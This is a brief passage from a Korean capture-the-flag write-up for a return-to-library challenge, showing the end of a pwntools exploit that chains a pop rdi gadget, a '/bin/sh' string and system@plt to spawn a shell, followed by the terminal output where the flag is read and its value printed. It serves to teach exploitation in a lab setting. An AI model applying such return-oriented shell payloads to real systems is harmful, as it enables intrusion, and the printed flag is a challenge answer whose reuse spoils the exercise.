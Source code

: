 ```python
payload+=pop_rdi
payload+=bin_sh
payload+=system_plt

p.sendafter("Buf: ",payload)
p.interactive()
```

이 익스 코드를 실행해주면 쉘을 얻을 수 있다.

```python
┌──(root💀kali)-[~/바탕화면/return_to_library]
└─# python3 ./answer.py
[*] Switching to interactive mode
$ ls
flag
rtl
run.sh
$ cat flag
DH{13e0d0ddf0c71c0ac4410687c11e6b00}
$
```

플래그 값인 DH{13e0d0ddf0c71c0ac4410687c11e6b00}를 얻었다.
